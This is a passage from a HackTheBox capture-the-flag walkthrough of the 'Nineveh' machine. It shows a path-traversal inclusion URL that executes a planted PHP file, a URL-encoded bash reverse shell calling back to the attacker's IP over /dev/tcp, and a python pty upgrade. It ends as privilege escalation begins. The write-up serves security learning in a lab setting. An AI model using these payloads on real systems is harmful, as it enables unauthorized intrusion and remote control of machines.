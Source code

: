 There it is, we should have everything at this point, lets go back to the LFI and try to execute our php code:

`http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/htb.php&cmd=whoami`

![rce-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nineveh/img/rce-21.png)

After a few attempts, i found a working payload for a reverse shell.

```bash
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.61/443+0>%261'
```

Do note that we need to URL encode the `&` characters otherwise they will be interpreted as new paramaters. With this in mind we get a shell:

![shell-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nineveh/img/shell-22.png)


## Privilege Escalation


After i land on the system i upgrade to a tty shell with:

```bash
python3 -c 'import pty;pty.spawn("bash")'
```

After that i started to have a look around the system when i found an interesting email in `/var/mail`:

![email-priv-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nineveh/img/emial-priv-23.png)
